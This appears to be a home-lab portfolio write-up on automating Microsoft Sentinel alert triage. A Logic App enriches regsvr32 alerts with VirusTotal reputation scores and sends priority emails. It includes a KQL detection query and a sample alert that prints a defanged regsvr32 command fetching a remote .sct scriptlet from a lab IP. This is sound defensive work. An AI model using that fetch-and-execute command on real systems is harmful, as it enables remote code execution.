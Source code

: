 # **Phase 4 – SOAR Automation with Logic Apps (Microsoft Sentinel)**

## **Overview**

This phase explored SOAR (Security Orchestration, Automation, and Response) integration using Microsoft Sentinel and Logic Apps. The goal was to automate alert enrichment and response actions — simulating what an analyst would otherwise perform manually during triage. This pushed me outside my detection comfort zone and into the response domain, requiring a shift in thinking: what does an analyst *actually need* to make a decision quickly? What’s high-priority vs background noise?

## **Objectives**

* Learn how Sentinel incidents trigger Logic Apps

* Extract and enrich alert data using external APIs

* Implement conditional branching to route high- and low-severity events

* Simulate analyst workflows, especially IOC validation

* Learn to parse nested JSON structures inside alert payloads

## **Workflow Summary**

1. A KQL detection triggers on suspicious use of `regsvr32.exe` contacting an external IP via HTTP

2. Sentinel creates an incident and triggers a Logic App

3. The Logic App extracts alert fields from `ExtendedProperties`

4. Contacted IP is parsed and sent to VirusTotal via HTTP GET request

5. The JSON response is parsed to extract `malicious` and `reputation` scores

6. Branching logic evaluates the reputation:

   * If **malicious \> 0** or **reputation \< 0** → Send `[ALERT]` email

   * Else → Send `[INFO]` email

## **Logic App Breakdown**

* **Trigger**: Sentinel alert

* **Compose**: Extracts `ExtendedProperties` field

* **Parse JSON**: Uses sample body to identify alert elements

* **Field Extraction**: Manually parsed fields for clarity: User, Image, CommandLine, ParentImage, IntegrityLevel, Contacted IP

* **HTTP Action**: GET request to VirusTotal API (with API key)

* **Parse JSON (VT)**: Extract `malicious` and `reputation` scores

* **Condition Block**:

  * `IF malicious > 0 OR reputation < 0` → Send alert email

  * `ELSE` → Send low-priority info email

[View Logic App Workflow PDF](/sentinel__detection_projects/phase4_regsvr32_soar/logic_app_success.pdf)

**Email Output (ALERT)**:

 Subject:  
\[ALERT\] Suspicious Regsvr32 Activity | User: redteam | IP: 192.168.1.80

Body:  
\- User: redteam  
\- Image: C:\\Windows\\System32\\regsvr32.exe  
\- Parent Image: powershell.exe  
\- CommandLine: regsvr32 /i:http://192\[.\]168\[.\]1\[.\]80/file.sct scrobj.dll  
\- Integrity Level: High  
\- Contacted IP: 192.168.1.80  
\- VT Malicious Score: 3  
\- VT Reputation Score: \-10

Recommended Actions:  
\- Investigate user activity  
\- Review traffic to the contacted IP  
\- Isolate the host if confirmed

[View sent email alert](/sentinel__detection_projects/phase4_regsvr32_soar/email_alert.PNG)


## **Technical Implementation**

**KQL Trigger**:
```kql
Event
| where EventID == 1
| extend raw_xml = tostring(EventData)
| extend 
    Image = extract(@"<Data Name=""Image"">(.*?)</Data>", 1, raw_xml),
    CommandLine = extract(@"<Data Name=""CommandLine"">(.*?)</Data>", 1, raw_xml),
    ParentImage = extract(@"<Data Name=""ParentImage"">(.*?)</Data>", 1, raw_xml),
    User = extract(@"<Data Name=""User"">(.*?)</Data>", 1, raw_xml),
    IntegrityLevel = extract(@"<Data Name=""IntegrityLevel"">(.*?)</Data>", 1, raw_xml)
| extend 
    ExtractedIP = extract(@"http[s]?://([^/]+)", 1, CommandLine)
| where Image endswith "regsvr32.exe" 
    and CommandLine has "http"
| project 
    TimeGenerated, 
    User, 
    Image, 
    CommandLine, 
    ParentImage, 
    IntegrityLevel,
    ExtractedIP

```
*  **Note:** `ExtractedIP` was added in retrospect after realising that this critical indicator could be reliably parsed directly in KQL rather than extracted later via Logic Apps. This streamlined the enrichment process, enabling simpler Logic App parsing and improving alert context earlier in the workflow.

* **Parsing Challenges**: The JSON inside ExtendedProperties required layered parsing. I used both UI and code view to troubleshoot, ultimately simplifying it by manually isolating each field in individual parse steps.

* **VirusTotal Query**: Used HTTP GET to query IP reputation. Sample JSON response copied from browser DevTools, then used to structure the `Parse JSON` action.

## **Analyst Workflow Impact**

Without automation, an analyst would:

* Manually extract the contacted IP from alert

* Search VirusTotal manually

* Estimate severity based on returned data

* Write a case summary

This Logic App replaces all of that with:

* IOC enrichment

* Structured alert context

* Severity-based tagging via email subject

It reduces MTTR, helps prevent alert fatigue, and supports faster escalation.

## **Triage Mapping**

* `[ALERT]` emails simulate Priority: High cases for SOC queues

* `[INFO]` emails simulate lower priority events (e.g., shadow IT, internal testing)

* Escalation logic is based on **malicious score** and **reputation**

## **Lessons Learned**

* Parsing nested JSON from Sentinel alerts is messy, especially when working with `ExtendedProperties`. Learning to inspect the payload in code view helped me understand field structure.

* Email formatting matters — structured fields make analyst review easier.

* I overcomplicated some parts of the flow but now understand how to streamline it.

## **Real-World Improvements**

If deploying this in a live SOC, I’d implement:

1. **Error Handling for VT Failures**

   * Add branch to handle 404 or timeout

   * Fallback enrichment (AbuseIPDB) or notify analyst with warning

2. **Filename Extraction & Hashing**

   * Parse filename from command line (e.g., `file.sct`)

   * Hash and enrich using file reputation services (e.g., ReversingLabs)

3. **Expanded Conditional Logic**

   * Add new branches: `if malicious > 0`, `if file_score > X`, etc.

4. **Tagging Known-Good Use**

   * Add allowlist for known internal IPs, accounts, or automation sources

   * Log these quietly but avoid notifying analysts

5. **Integration with Case Management**

   * Route enriched alerts directly into a ticketing system like TheHive or ServiceNow

---

This phase brought the project full circle — moving from detection to triage and enrichment. It represents what a junior analyst should aim to learn post-detection: how to reduce triage time, surface critical IOCs, and improve SOC efficiency through lightweight, automatable processes.
